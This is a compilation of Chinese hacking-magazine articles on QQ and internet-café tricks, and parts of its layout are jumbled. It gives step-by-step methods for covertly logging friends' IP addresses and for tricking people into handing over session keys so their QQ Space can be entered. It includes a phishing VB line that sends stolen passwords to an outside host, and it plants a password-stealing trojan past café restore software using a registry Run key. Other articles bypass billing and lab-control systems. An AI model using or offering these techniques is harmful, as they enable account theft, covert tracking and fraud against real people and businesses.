既然已经解包了rdb文件，那就顺便把自慰的VIP1也改成VIP6吧。在Res文件夹里找到“ConfigCenter\ConfigCenter-Frame_Vip-Flag_texture-Vip.png”文件，这个就是显示VIP等级的文件，把内容全改成VIP6即可，如图6。最后我们再使用“RDB打包解包工具”把修改后的文件打包成“Res.rdb”文件，保存到QQ2009根目录下并替换原文件（此文件通用sp1-sp6，替换时请备份好原文件），登录QQ就可以看到修改后的效果了，如图7，还不错吧！

（文章中涉及到的QQ2009（sp1-sp6）会员补丁、QQ2009去广告助手V1.89、RDB打包解包工具以及更改好的文件，请到网站下载）

# QQ空间上的IP统计器与好友IP地址的泄漏

kimchan

最近在逛别人QQ空间的时候发现了一个非常有趣的东西，就是在对方QQ空间主页上出现了一些访问过该空间的访问者的IP地址信息，如图1。为了探究竟，我就在百度上搜索了一下相关信息，才知道原来这些都是使用了一个网站所提供的计数器而达到的效果。

个人感觉这种效果挺好的，可以更加方便地让QQ空间主人知道自己空间的详细情况，而且我们还可以根据这一特性来看QQ好友的IP地址。首先，我们打开“http://www.ipcat.cn”这个网站，来注册一个账号，点击注册，然后填写相关的信息，如图2。

使用刚才注册的账号重新登录，点击“让来访者无处遁形，马上去看我的计数器”进行计数器的申请，再点击右上方的“创建计数器”，如图3。接下来就是填写一些关于计数器的配置信息了，如图4。

“网址”栏可以直接填写你的QQ空间地址，如果不知道QQ空间地址的话，可以查看QQ个人信息那里或者查看QQ空间主页的上方。

创建完毕后，我们选择“使用计数器”，如下图。下方代码中的“http://www.ipcat.cn/ip?id=118077”就是我们申请的计数器地址，如图6。

我们要做的就是把这个计数器地址复制下来。大家也可以把它预先放到浏览器上来测试一下效果，它会以图片的格式来显示你当前的IP地址，如图7。既然是以图片的格式，那么也就方便我们应用到自己的QQ空间中了。打开自己的QQ空间，点击上方的“自定义”——“模块”——“新建模块”，在选择模块的时候，大家注意一定要选择“大图模块”，如图8。

因为大图模块可以自定义我们显示图片的大小，如果选择“图文模块”，那么在显示的时候图片就会变得很小，不适宜观看。接下来我们只需要在“图片地址”处粘贴上我们刚才复制下来的计数器地址，模块边框选择无，然后展开“更多设置”，图片尺寸分别为宽350、高250。具体设置可以根据实际情况来进行修改，如图9。保存后退出，再重新打开你的QQ空间就会看到效果了。当别人访问你QQ空间的时候，就会留下访问者的IP地址，如图10。

文章最后我再来补充说明一下前面所提到的如何查看QQ好友IP地址。相信友子们已经知道如何实现查看QQ好友IP地址的方法了吧：把你的QQ空间地址发给对方，当对方访问你QQ空间的时候，自然而然地就会留下他（她）的足迹了。

但是，也有一个问题，就是对方也会看到QQ空间上的计数器。这样当他发现自己的IP地址被记录下来的时候，那么也就可能会猜测到你当初叫他访问空间的动机了。所以，我们必须把计数器隐藏了。该怎么隐藏呢？实际上，我们可以在填写图片模块尺寸的时候，把宽和高都填为1或者0，这样对方就不会发现你空间上的计数器了。而我们要查看对方IP地址的时候，只需要把前面提到的那个计数器地址复制在浏览器上就可以看到了。

就这样，一种新的查看QQ好友IP地址的方法就被我们延伸出来了。所以，我们在学黑的过程中，要学会多思考、多注意、多发现！

# 漏洞让爱Q大盗无处遁形

炫风舞（中国威派联盟）

相信大家对今年第3期杂志上的“爱Q大盗+QQ申诉=终极盗号”一文还记忆犹新吧。那个方法之所以能够成功，有一半的功劳都属于我们再熟悉不过的“爱Q大盗9.0”。但是近来，我发现爱Q大盗存在着很严重的漏洞，无论我们的免杀做得多好，只要被盗者稍微留心，我们的盗号计划就会全部泡汤。爱Q大盗9.0采用的盗号方法，是使用作者事先截取的QQ登录窗口图样，来覆盖真正的QQ登录窗口，但问题的关键就在这儿。

## 一、登录窗口的闪框

当电脑中了爱Q大盗后，我们再次运行QQ时，QQ登录窗口会被一个突然跳出的新QQ登录窗口所覆盖，这也就是木马使用了作者预先截取的QQ登录窗口图样。虽然爱Q大盗生成器上有一个“防闪框”选项，如图1，但是木马在实际运行时，还是会出现闪框的。爱Q大盗9.0 VIP版的闪框现象要比普通版本好很多，但仍然还会出现轻微的闪框。一般来说，这个漏洞很容易暴露，只要被盗者细心地观察一下，就能够发现这个问题了。

## 二、密码框的字体

我们来比较一下真正的登录窗口和爱Q大盗伪造的登录窗口（这里使用的是VIP版本的爱Q大盗），分别如图2和图3所示。乍一看，几乎没什么区别，但是当我们输入密码时，问题就出现了：细心观察这两个登录窗口的密码框，怎么样？明白了吧！爱Q大盗的密码框在输入密码时，要比真正的QQ密码框的字体细很多。很明显，一个是黑体，一个是宋体，而且字号也不同。爱Q大盗普通版要比VIP版更为明显，无论是哪个版本，字体都要比真正的QQ密码框细。

## 三、登录设置的按钮

QQ的登录窗口可以自由设置代理和选择服务器，我们再来看看爱Q大盗伪造的登录窗口，无论你怎么点击，登录设置始终没有任何反应，这也是作者的一大疏忽啊！

## 四、活动LOGO

一般来说，只要有什么重大活动或者节日，QQ登录窗口都会出现活动的LOGO图标，如图4。而爱Q大盗伪造的登录窗口却没有。那天我正好赶上“为地球熄灯一小时”活动，但爱Q大盗的登录窗口却没有显示，运气啊！

除了以上的这些问题外，爱Q大盗还有其它的一些漏洞，这里就不一一列出了。还是那句老话：“没有绝对完美的程序，只有不断完善的程序。”无论是多么优秀的木马，总会有不可避免的漏洞。只要我们善于注意细节，木马的阴谋也就无法得逞了。

（文章中涉及到的爱Q大盗9.0 SPSVIP版以及灰色按钮专家易语言版，已经收录在了光盘中）

## QQ类破的接力——两招技巧，让QQ玩至巅峰

hx小龙（白雪龙）

坏事年年有，今年特别多。瞧，随着TX的发展，其功能花样不断更新的情况下，在产品的试用限制上也是频繁翻新，这等措施为难的又是谁？不就是我们这些欲哭无泪的小菜吗！所以，作为小菜的我们要寻求突破，这样才不违背我们口号的“自由、平等、随意、爽……”  
“破”的精神（当然这也是黑客X档案所一直倡导的了 o(∩_∩)o），下面我就从三个方面带领大家来简单地突破TX的种种限制！

## 一、QQ空间的简单攻略

QQ空间，这也是老生常谈的一个话题了，那么它都有什么限制呢？QQ加密空间、前几期杂志上提到的游戏刷分、还有QQ农牧场等等，其实说起来也就这么几种限制。有了目标，那我们就来逐个突破吧。

首先来看QQ加密空间，记得在杂志上曾经提到了www.gogoqq.com这个用来查看加密空间的地址，但是它在使用上却不怎么稳定，有时候还会提示我们所查看的权限不够，或者在服务器上的资料已经被删除，如图1。所以我就在网上搜索了一番，终于找到了一个可以和它相媲美的网站，其网址就是“www.foam-e.com”。打开后的界面如图2所示，看到这个界面，我想大家都知道该怎么做了吧：输入想要查看的那个加密空间的QQ号码，点击“查看QQ相册”就可以了。同时这个网站还提供了对某QQ空间的克隆功能，可以同时克隆QQ空间模块和QQ空间音乐，在功能上还是很便捷的，大家不妨去试一试。

上面介绍的方法是利用辅助网站对加密QQ空间进行破解。有句比较经典的名言，想必大家早就听过——“工欲善其事，必先利其器”。说到接下来的这款工具“QQ强手 V5.0【完整版】-黑X专版”，它的功能可不仅仅是破解对方加密QQ空间那么简单了。大家都要注意的是，由于软件是使用易语言编译的，所以会被报毒，大家尽管放心使用就行了。工具运行后的界面如图3所示，从界面中我们就可以清楚地看出，软件的使用方法是非常简单的。

我们只需要输入对方的QQ号码以及漏洞代码，然后选择想要破解的项目即可。那什么是漏洞代码呢？其实这个就是对方“QQ飞车图标”（点不点亮都可以）未跳转前的代码。这里需要特别注意的是，这个地址一点开跳转得非常快，解决的方法就是：点开后马上按键盘上的“Esc”键，跳转就会暂停了。得到其他人的这个代码，那就要靠大家的忽悠大法了，相信每个友子都有自己的方法吧。下面是我忽悠一位同学的截图，仅供大家参考，如图4。

大家可以看到对方给我发过来的那一长串地址，没错，这就是我们的突破点。把这段代码复制下来：  
`http://ptlogin2.qq.com/QQSpeed_tb?clientuin=14662******&key=FA1752B47F41D759D4E5BB0F787E07E9A58A1D544E24C2C77B89BBA620B6182B&ADUIN=1466269084&ADSESSION=1270568448&ADTAG=CLIENT.QQ.2785_MyTip.0`  
其中clientuin后面的那个1466******就是我们要填写的QQ号码，而key后面的“FA1752B47F41D759D4E5BB0F787E07E9A58A1D544E24C2C77B89BBA620B6182B”就是我们的漏洞代码了。在工具中填写好后，选择后面的“入侵QQ空间”，大家看，已经成功地进入了，如图5；接下来我们再选择“修改QQ秀”，也成功地进入了，如图6。

# QQ宝典

限于文章篇幅有限，至于其它的使用我就不一一介绍了，根据你当前的网速决定的，如图11，分数已经算高的了吧！剩下的还是交给大家去尽情地使用吧。下面我再给大家介绍一种利用QQ邮箱查看加密空间的方法，这个方法可能有的朋友已经知道了，但也有一些友子可能还不太明白。首先进入我们的QQ邮箱，找到“阅读空间”这个功能，双击进入后，在工具栏的最上方找到“我的订阅”，如图7，点击后我们就可以看到有个署名为“查找博客”的搜索选项，提示我们输入“要找的词，QQ号码，博客”，把加密空间的QQ号码输入其中，然后它会提示我们回答对方的问题，如图8。接下来就是整个环节的重点了，通常情况下，这样的加密空间我们是没办法进入的，我们点击上方的“下一页”，然后再点击“上一页”，如图9。现在，再来看看，是不是已经成功显示了，相信大家已经对进入加密QQ空间的方法悉数掌握了吧！


图10


图7


图11

## 二、把QQ显IP坚持到底

从珊瑚QQ的显示IP，再到彩虹QQ的隐身显示IP，我们可以看到，反TX的“组织”也在不断地进步和发展着。但自从QQ2010推出以后，就发现很少有朋友再提到QQ显示IP了，我们不禁又有了一番猜想：是QQ显示IP的功能在2010版的QQ中已经不支持了，还是别的什么原因呢？目前官方的QQ最新版本是QQ2010 Beta2（简体），下面我就来介绍一下如何突破最新版本的QQ进行显示IP。

简单地说，我们要想实现显示IP的方法，其实也就是利用我提供给大家的文件来进行文件覆盖，然后再重新登录QQ就可以实现显示IP了。为了大家的使用安全，我们再来简单地了解一下我安装的QQ版本信息吧。安装的是V3.72核心的QQ2010 Beta2，添加了快乐无极QQ2010美化工具V1.0以及快乐无极QQ2010在线更新工具V1.0，使用了纯真版IP数据库2010.03.25。


图8

回想前几期杂志中“QQ宝典”栏目的内容，我们经常会看到“QQ游戏基地刷分”，其实这两天我也迷上了“QQ游戏基地”，感觉自己手里的这款刷分工具非常不错，所以就写出来和大家分享一下。我们都知道QQ校友开设了“游戏基地”的功能，这款外挂刷分工具利用的漏洞就是提交分数的时候没有在服务端校验积分的真实性，因为腾讯的数据库使用的是长整型的数据，所以最大值只能保存2147483647。

工具的使用分为了两个阶段，一个是登录QQ号码，一个是进行刷分。为了大家QQ号码的安全，我建议选择快速登录的方式，软件登录后的界面如图10所示。在登录成功后我们切换到“刷分”这个选项，然后直接点击“刷新所有游戏100次”就可以了，刷新的速度是……


图9

> 在此提供三种方法以供大家选择：

- 1. 使用HookQQ去广告显IP（默认，推荐使用）；
- 2. 使用赛博并锁定IE首页为空白页（about:blank），开机时将要启动一次锁定程序（执行完后自动退出）。这个方法会被某些杀毒软件报毒，但大家请相信这完全是安全的！这个方法也有可能会对64位系统无效，因为未对64位系统进行过测试；
- 3. 使用赛博桌面，浏览器首页须强制设置为赛博页面，如果手动修改首页，赛博将不能正常使用。

看完了上边的描述，我想大家的后顾之忧可以解除了吗。首先我们解压文件，然后退出所有关于QQ的程序，找到QQ安装目录下的users文件夹，先把它复制到桌面上，然后卸载我们的QQ。接下来就是安装我为大家提供的QQ程序了，安装的过程非常简单，直接覆盖原始QQ目录就可以了。安装完毕后，再把我们刚才复制下来的文件夹重新覆盖到新的安装目录就可以了。登录QQ，我们来对比一下前后两个对话框的变化，如图12、图13所示。


图12


图14


图13

至此我们的QQ就可以显示IP了，从上图中我们也可以清楚地看到，gxm使用的还是QQ2009的SP4版本呢。其实它也和彩虹QQ一样，不但可以显示IP，同时还可以显示模拟本地会员功能、禁止TX的广告等等，如图14，大家就根据自己的喜好去设定吧。

（文章中所用到的QQ强手V5.0[完美版]-黑X专版、空间游戏刷分、腾讯QQ2010 Beta2快乐无极中文绿色版，源代码已收录到光盘中）

# 刷钻工具背后的阴谋


图1

相信大家对腾讯推出的续费业务都不陌生吧，QQ会员和钻石贵族是10元/月，黑钻和穿越火线VIP更是达到了20元/月和30元/月的“天价”，这是我等穷叉子所无法承受的。可交钱就得享受不平等的“待遇”，于是为了QQ，一些叉子开始使用“刷钻”这一手段来实现续费业务的“免费”使用。

炫风斧（中国鹰派联盟）

出现了一些所谓的刷钻工具来供大家使用。殊不知，这些工具的背后却都有着不可告人的秘密……记得在去年第3期的黑客X档案上就曾经提到过使用如下两串代码来进行网页内容的修改，从而实现“刷钻”的骗局，获取非法利益，如图2。

```javascript
javascript:document.body.contentEditable='true';document.designMode='on';void 0

javascript:document.body.contentEditable='false';void 0
```

我也听很多人都说自己能刷钻，我问他们怎么刷，得到的答复大多是“用ADSL密码获取器”，如图3。使用别人的宽带来支付是一种极不道德的行为，而且根本就不能长久地使用。其实早在2005年5月23日，腾讯就已经对存在的刷Q币、刷钻等大量漏洞进行了修复。换句话说，刷钻几乎是无法实现的，即使有，也不会被轻易公布，而且腾讯也对刷钻加大了打击的力度，一经发现，就会立即封号，所以我劝大家还是趁早打消刷钻的念头吧。


从某种角度上来看，刷钻现象的出现，也给我们的盗号带来了思路。大家仔细想想，如果我们使用刷钻来作为掩护而开发一款程序，但其实质上却是盗取QQ密码，这是不是一个不错的思路呢？

这又不得不提到我们上文写到的“网上有很多所谓的刷钻工具”，在这些工具中可能也确实存在真正的刷钻工具，但它们都是可遇而不可求的，更多的则是利用刷钻来盗取别人QQ密码的工具。明知有可能会被盗号，但有些小菜还是疯了一样地跳进这个怪圈，真是令人无语！

既然提到了这类工具，那我就以自己使用VB编写的“QQ业务暴力获取器”为例，来把这类钓鱼工具的罪恶展示在大家眼前，如图4。这个程序非常简单，可以说是“白痴式程序”，但就是这样一个程序，使得多少“为钻而狂”的用户跳进了我们的口袋。


以下就是程序的关键代码：

```vb
Shell "C:\Program Files\Internet Explorer\iexplore.exe http://qqrojay.cn/qqmm.asp?name="+a+"&pass="+b, vbHide
```

怎么样？是不是看出什么了？没错，就是这样一句简单的代码，出卖了被盗者的QQ密码，是不是很让人哭笑不得呢？我在这里只是作为一个例子来进行介绍，具体的还有待大家进一步地完善。

希望各位友子记住：天上不可能掉馅饼，就是掉也别指望就能砸到自己！踏踏实实地发掘特权免费使用的办法吧，不要老想着刷钻、刷Q币了，这是我们这类小菜可望而不可及的！

> （文章中所用到的刷钻钓鱼工具和代码已收录到光盘中）

# QQ群靓号&QQ号颠倒BUG再续

## 一、QQ群靓号BUG


这天在网上看到有人公布了一个QQ2010的BUG，它可以让我们随意修改自己在QQ群里显示的QQ号码，我使用了一下感觉挺好玩的，在此就写出来和大家分享。首先我们打开“QQ群靓号BUG代码.txt”文件，如图1，把文件里的“昵称”和“QQ号”改成自己想要的，如图2，然后按“Ctrl+A”全选再按“Ctrl+C”复制，最后将复制的内容粘贴到群名片的群昵称里，点击“应用”后就可以看到效果了（不能把QQ号码改成“10001”，否则保存时会提示无法修改姓名的），如图3。

使用了这个BUG后，我们在群里的QQ号码表面上是改变了，但是在群里发信息或者在个人资料里还是可以看到真实的QQ号码，毕竟这只是个小BUG嘛，用来在群里炫耀一下还是不错的（此BUG在QQ2009 SP6—QQ2010 Beta3上测试有效）。

## 二、QQ号颠倒BUG再续

新的QQ号颠倒BUG，这次的BUG不需要代码，纯手工打造即可。


首先打开QQ个人资料，点击一下昵称输入框，然后点击鼠标右键选择“插入Unicode控制字符(I)”——“RLO Start of right-to-left override”，如图4。接着在昵称后面输入一个“黑”字（可以随便输入，如果是多个字就要一次性倒着输），如图5，最后点击“应用”保存好就可以了，效果如图6所示（此BUG通用QQ2009—QQ2010）。

> （文章中所用到的QQ群号与BUG代码txt已收录到光盘中）

# 免费来开通QQVIP邮箱

QQ邮箱以其方便易用的特点，深受大家的喜爱。那么大家想不想拥有诸如XXXX@vip.qq.com这样的VIP账号呢？这样留给别人也比较有面子嘛，下面就来说说我的方法。

对于VIP账号，只要是QQ会员就有资格申请。对于我们这些没有money的小菜来说，要想获得临时的QQ会员资格，可以使用手机开通的方法。因为移动和联通用户的手机短信开通QQ会员在72小时内（广东联通开通免费24小时，四川联通开通即扣费）是不收费的。来到开通QQ会员的页面，选择手机开通，如图1，输入手机号，根据提示使用手机回复短信，如图2。回复后马上就会收到短信了，并提示开通成功72小时内免费。


开通成功后我们打开自己的QQ邮箱，选择上方的“设置”——“账户”——“注册VIP邮箱账号”，如图3。接下来填写账户信息即可完成注册，拥有一个属于自己的VIP邮箱账户了，如图4，最后将VIP账号设为默认的发信账号即可。


图4

使用手机方法还可以开通其它的QQ服务。如果是移动用户，首次（注意：一定是当月首次开通，这个和72小时免费只能选择其一）订购时间在每月21日0时以后，可以一直免费使用至当月月底。在当月内退订的话不会收取任何的包月费用。使用这种方法，一个月开通10天，一年就是120天，可以说这确实是一个不错的免费使用QQ付费业务的方法，不过到时候一定不要忘记取消了哦！

# 让山寨手机也能后台运行QQ


古墓侯梅

现在的山寨手机可谓是漫山遍野，而山寨手机的功能也是十分强大，拍照、摄像、MP3、蓝牙、语音拨号、手机QQ等一应俱全。但是山寨手机里自带的手机QQ却有好多都是不能在后台运行的。什么是让山寨手机在后台运行QQ呢？简单地说，就是在你发短信、打电话、玩游戏的时候，你的QQ仍然挂在上面。我的手机是诺基亚的智能手机，因此QQ当然能够在后台运行。我在朋友的山寨手机上进行了测试，最终简简单单地就实现了如何让山寨手机在后台运行手机QQ。为了让大家能够看到手机QQ在后台运行的效果，我使用自己的智能手机进行了截图，如图1所示就是手机QQ在后台运行的截图，如图2所示就是在发短信的时候，手机QQ在后台运行的截图。


图1


图2

## 第一步：确定你的手机是否支持MRP或MTK应用

- 1. 在拨号状态下输入*#777755999#或*#220807#，查看你的手机有没有反应？如果有反应，就说明你的手机支持。对于有反应的手机，当我们输入上述内容后，就会打开网页，或者显示提示，或者别的什么情况。对于没有反应的手机，当我们输入内容后不会有任何的反应，或者是叉叉类的。如果没有反应的话，那么就说明你的手机不支持，因此本文所介绍的方法你也就不用再浪费时间去试了！
- 2. 把手机与我们的电脑使用数据线连接起来，查看你的手机中是否存在以下三个文件夹中的任意一个：mulgame、mythroad、downdata/MR，只要有一个就可以了，这类的MRP软件将会放到上面的文件夹中。

## 第二步：安装应用软件

- 1. 把手机与我们的电脑使用数据线连接起来，将以下的几个文件复制到mulgame、mythroad、downdata/MR这三个文件夹中的任意一个下。
- 2. 这三个文件的名字分别为：applist.mrp、dsm_gm.mrp、yyrj.mrp。

## 第三步：打开应用软件列表

断开手机与电脑的连接，开启手机，输入*#220807#，此时我们应该可以看到一个以前没有见过的应用软件列表，点选这个列表最上面的“应用软件”，再点选“启动应用”。

## 第四步：安装手机QQ2008

- 1. 手机重新连接电脑，找到mythroad或downdata/MR或mulgame文件夹下的一个mor_list17文件夹。
- 2. 把一个名为qq2008.mrp的文件复制到这个mor_list17文件夹下就可以了。

## 第五步：运行软件

- 1. 断开手机与电脑的连接，开启手机。
- 2. 在拨号状态下输入*#220807#，然后点击“应用列表”，再点击“应用软件”，然后再点击“启动应用”，刚才安装的QQ应该在“收藏夹”或“最近下载”里。
- 3. 挂QQ的方法如下，点击菜单—我的状态—挂Q，返回手机屏幕就可以进行其它的操作了，不过不能同时登录两个QQ。要想返回的话，可以先按0键，再长按*键。

> （文章中涉及到的applist.mrp、dsm_gm.mrp、yyrj.mrp、qq2008.mrp，已经收录在了光盘中）

# 秒杀网吧还原来盗QQ

相信许多X子都有过这样的经历，好不容易找到了好用的盗Q软件，但却苦于网吧安装有还原软件而无法顺利地盗取Q号。本文针对网吧的软还原（如还原精灵、冰点还原、网络大师还原等）进行破解，思路是让木马在还原层之外运行，从而绕过还原机制。

首先准备一个U盘并制作WinPE系统，在U盘中放入盗Q软件。进入WinPE后，可将生成的木马放到系统启动目录，例如 `X:\Documents and Settings\USERNAME\「开始」菜单\程序\启动`。

修改注册表的方法也可导出来：运行 `REGEDIT`，定位 `HKEY_LOCAL_MACHINE`，在“文件”中选择“加载配置单元”。

在 `X:\WINDOWS\SYSTEM32\CONFIG` 中加载无扩展名的 `SOFTWARE`，输入临时项名称（如1234），然后在 `MICROSOFT\WINDOWS\CURRENTVERSION\RUN` 新建字符串值并写入木马路径（如 `X:\WINDOWS\XXX.EXE`），保存并卸载配置单元即可。


这样完成后，即使木马被删除，重启后仍可再次运行。还可通过修改本地备份文件实现持久化；若使用GHOST EXPLORER，可挂载本地GHO，将木马和快捷方式加入其中，并同步修改注册表相关项。

也可以制作伪装快捷方式放到启动目录中，命名为如“QQ游戏加速”等不易引起注意的名称。文末提到：文章中用到的GHOST EXPLORER已收录到光盘中。

# 神奇的复制法突破网吧限制

无敌小龙


关于网吧下载限制的破解方法有许多种，而今天我要介绍的则是一种非常神奇的破解方法，这就是复制法。大家先别急着问这个复制法到底是什么，因为耐心地看完本文后大家就会明白了。

首先我们需要搭建起一个WEB环境，这里我使用的是逍遥迷你ASP服务器来搭建的WEB服务器环境，如图1。然后，将一个网吧破解软件或者是你要使用的下载软件改名为BMP文件，我就使用计算器软件来进行演示了。


完成上面的步骤后，我们再建立一个HTML文件，用于显示我们的“图片”文件（事实上也就是我们的EXE可执行文件改名后的那个文件），内容如图2所示。


把制作好的网页文件和那个“图片”文件一起放到网站目录下，并且使用浏览器打开，我们点击打开收藏夹，并且勾选上“允许脱机使用”，如图3。


在页面上那个图片的位置上点右键，选择“复制”，如图4，然后再使用右键菜单中的粘贴功能将该文件保存到桌面上，如图5，最后再将这个BMP文件的后缀名修改为EXE就可以实现文件的下载和正常运行了，如图6。


这样我们就简简单单地破解了网吧的下载限制，文章中我使用了计算器程序来进行演示，而如果更换成一个网吧破解软件或者别的下载工具，那么我们就可以实现对网吧的深度破解了。

> （文章中所用到的逍遥迷你ASP服务器已收录到光盘中）

# 破解网吧限制U盘的使用

江湖一剑飘


济南的这个冬天特别冷，冷得我连网费都不想交了（小菜：这是什么逻辑？）。某日，窝在家中闲着无事，随即拿起U盘就跑到网吧下载电影去了，插上心爱的U盘，按照往常的套路“发现新硬件”、“发现移动驱动器”……紧接着，问题突然出现了，因为网吧管理软件的限制，在“我的电脑”中根本就无法找到刚才插入的U盘。

天哪，难道就被这样一个小小的问题困住吗？那也太丢人了，好歹也是看了X档案这么多年了。经过一番尝试，终于我还是略施小计就解决了这个小问题。首先在“我的电脑”上点击右键，选择“管理”，就进入了“计算机管理”的界面，如图1。然后展开“存储”项，点击“磁盘管理”，是不是刚才插入的U盘就在里面显示出来了，如图2。


我们在U盘的盘符上点击右键并选择“打开”，哈哈，是不是被隐藏的U盘就这样可以使用了，不要耽误时间了，赶快下载吧！

# 轻松破解万欣机房管理系统

bobby25


自从我们学校的图书馆使用了万欣机房管理系统后，我就开始发愁了，每个月的钱包都是空空的，看来只有把它废了才是万全之策啊！

首先来看一下这个万欣机房管理系统对我们都有什么限制。首先是不能使用exe程序，只要用户使用了非电脑允许的exe程序，万欣就会提示什么管理员禁止使用exe程序。这个限制并不是在组策略里设置不让exe程序运行，也不是映像劫持。我想了想，估计是客户端中有什么内置程序限制了我们运行非管理员允许的程序吧。除了限制我们使用exe程序外，万欣还不让我们访问校外网，不让用户设置组策略。下面我们就想办法突破它的限制，实现自由上网。

在电脑开机时我们按F8并选择进入带网络连接的安全模式，小菜们可能要问为什么？这是因为在正常启动的模式下破解，破解后的电脑在10—30分钟后就会蓝屏，这样当然是不行的。当然在我们进入安全模式的时候，还需要将QQ等自己要使用的一些程序安装在U盘中，因为在安全模式中有许多程序是无法安装的。至于为什么要选择带有网络连接的模式，这是因为万欣的控制端会与客户端进行连接，如果无法与控制端连接，那么电脑也就无法进入桌面。

我们先来突破无法上校外网的限制，方法非常简单，修复一下注册表就可以了（总之我们学校的情况就是这样的，不知道别的地方是如何），直接双击“XP网络修复.reg”导入到注册表中，电脑就能上外网了，如图1。还有一个限制就是组策略管理器，导致了我们无法设置电脑，这个修复也非常简单，直接运行组策略修复器gpedit.bat就可以了，如图2。


最后就是突破CCMClientNT.exe这个程序了，就是这个程序让我们无法使用其它非系统允许的exe程序。我到网上搜索了一下相关资料，有网友提示说CCMClientNT.exe与系统重要的程序winlogon.exe是相互保护，只要winlogon.exe还在运行，一旦将CCMClientNT.exe程序关闭，那么CCMClientNT.exe程序就又会自动被系统加载，而winlogon.exe程序却是不能被强行关闭的。但好消息是winlogon.exe可以被暂停。那么，我们只要将winlogon.exe暂停，不就可以将CCMClientNT.exe关闭了吗。


这时，我就想到了使用Process Explorer这个程序。首先运行Process Explorer，电脑会自动提醒管理员禁止使用该程序，不用理它。大家注意系统桌面右下角的图标还没有被关闭，我们需要抓紧时间，不然10秒钟后Process Explorer就会被系统强行关闭了，如图3。先把winlogon.exe暂停，如图4，然后再使用同样的方法将CCMClientNT.exe暂停，这样万象机房管理系统就被成功破解了。不过此时还存在几个缺陷：

- 第一就是桌面与其它电脑的桌面非常不协调，很容易被机房的OP发现；
- 第二就是无法切换输入法，用户都要手动加载输入法ctfmon.exe程序才行，不然就只能使用英文输入；
- 第三就是比正常运行时要慢。

在此，也希望大家能够有更好的破解方法共享出来！


（文章中涉及到的XP网络修复.reg、组策略修复器、Process Explorer，已经收录在了光盘中）

# 看小菜如何徒手杀万象

蓝色枫叶

今天，我给大家带来了一篇破解网吧收费系统，实现免费上网的文章。由于我们这儿的网吧全都是养“象”专业户，所以我也只好拿万象来开刀了。来到经常上网的这家网吧，发现卡上的钱已经不多了，我决定履行一下黑客的精神：自由、平等、随意、突破！具体的实施步骤如下：

- 1. 先到网管那儿刷卡。
- 2. 四处观望，找一个位置较偏、上网用户却比较密集的地方，千万不要选择没人的地方。要不然，当你实现免费上网后，网管往收银台的电脑上一望，那你可就危险了！
- 3. 开机，填上卡号密码，先来看一下都有什么限制（我们这儿的网管很不负责任，电脑的限制并不统一）。似乎最近我的人品还算不错，这台电脑几乎没有什么限制（即使有一些限制，相信也难不倒经常看X档案的小菜们吧）。
- 4. 选择“开始”→“程序”→“附件”→“通讯”→“新建连接向导”，如图1，点击“下一步”，选择第一项，也就是“连接到Internet”，继续点击“下一步”，选择“手动设置我的连接”，如图2，再点击“下一步”，选择“用拨号调制解调器连接”，点击“下一步”后，随便输入一个ISP的名称以及电话号码，一般我们填写简单易记的就行，比如“用户名”和“密码”都使用1，如图3。


其它的选项可以不用选择，直接点“下一步”就来到了“正在完成新建连接向导”处，勾选上“在我的桌面上添加一个到此连接的快捷方式”，如图4，最后点击“完成”。现在在桌面上就有了一个我们所建立的网络连接了，其实这部分虽然感觉着有些繁琐，但我们只要有了第一次的操作经验，那么以后就可以非常简单地完成了。


**五、** 右键点击刚才建立的连接，选择“属性”→“查找目标”，就来到了“网络连接”处（看到这儿，可能有小菜就要问了：“为什么我们不从‘控制面板’中直接打开‘网络连接’呢？”这是因为这家网吧的电脑上安装了限制软件，直接打开“网络连接”的话会被关掉，而破解这个限制软件也不是本文所要介绍的重点，再说这个限制也不会给我们这次的免费上网带来太多麻烦）。在这个新建的网络连接上点击右键并选择“属性”，然后选择“网络”，在使用的协议处把最长的那个协议，也就是NWLink IPX/SPX/NetBIOS那项取消掉，如图5。完成后点击“确定”，这时再来看电脑上的客户端计费软件，竟然还在计费，是不是刚才操作得慌，没有取消掉呢？马上返回又去仔细地查看了一下，发现确实已经取消掉了呀！经过了0.1秒的思考，无意间看到了那个“卸载”按钮，对呀，如果把它卸载了也就无法使用了。二话不说，勾选上那个协议，然后点“卸载”，感觉电脑卡了一下，应该是在处理中，然后点击“确定”，弹出了对话框，内容大概是提示我们需要重启，直接选择“取消”。大家记住，只要有重启的提示我们都要选择取消。

再来看客户端计费软件，哈哈，已经出不来了。如果在上边的步骤中无法打开我们新建的那个连接，那么还可以打开IE浏览器，选择“工具”→“Internet选项”→“连接”，选中刚才建立的网络连接，然后点击右边的“设置”，在“设置”中选择“属性”，然后再选择“网络”，就又和上面第五步中的操作一样了。如果还是无法打开的话，那么还可以直接选择“开始”→“设置”→“网络连接”，选择刚才建立的那个网络连接，就来到了“属性”窗口中，然后选择“网络”，又和上面的操作方法一样了。

**六、** 这一步是防止网管突然来检查时的保命稻草。我们先在某个盘里新建一个任意名的bat批处理文件，在其中输入 `shutdown -r -t 1` 后保存；然后在桌面上新建一个快捷方式，指向这个bat文件，再为这个快捷方式设置一个热键，当网管过来检查时就快速按下热键，系统就会在1秒钟内关机并重启了。或者我们先把壁纸设置为登录界面，再把explorer和任务管理器改名，再把Ctrl+Alt+Del热键屏蔽掉，然后把bat的内容更改为 `taskkill /f /im explorer.exe` 保存，然后在桌面上建一个快捷方式以及热键。当网管过来检查时就按下热键，嘿嘿，看不出来了吧，接下来就可以刷卡下机了。

```bash
shutdown -r -t 1
taskkill /f /im explorer.exe
```

好了，经过以上这六步的设置后，我们就可以放心地逛X档案的论坛了，真是爽啊！不知小菜们都看明白了没有，要是还没有的话，就看看光盘里我为大家制作的视频教程吧！（文章中所涉及到的视频演示教程，已经收录到了光盘中）

# 再谈万欣的破解

## 管理系统的破解


一直不清楚我们学校机房到底使用的是什么管理软件，直到看了第1期的杂志后才知道使用的是万欣。记得刚进入大学时破解这个管理系统还是很容易的，开机时按F8，选择最后一次正确的配置，连卡也不用刷就可以直接进入桌面，网络连接也正常……从破解冰点还原的方法上得到的启发，以后在对付部分还原软件时大家不妨一试。

但后来这个方法就不管用了，应该是管理软件进行了更新。在上期杂志中作者使用的方法是暂停winlogon.exe，从而实现对程序的破解，作者并认为“winlogon.exe程序却是不能被强行关闭的”。其实这个观点是错误的，我这次使用到的方法，正是“强行关闭”。

打开Wsyscheck，在“进程管理”中我们很容易就可以发现CCMclientNt.exe进程，点击它，从下面的“模块路径”框中发现它加载了一些dll。注意上面的winlogon.exe，发现它是呈粉色显示的，点击它，在下面我们又一次找到了Cprotect.dll，这就是作者所说的“破解后的电脑10-30分钟后就会蓝屏”的罪魁祸首了吧，如图1。


图1

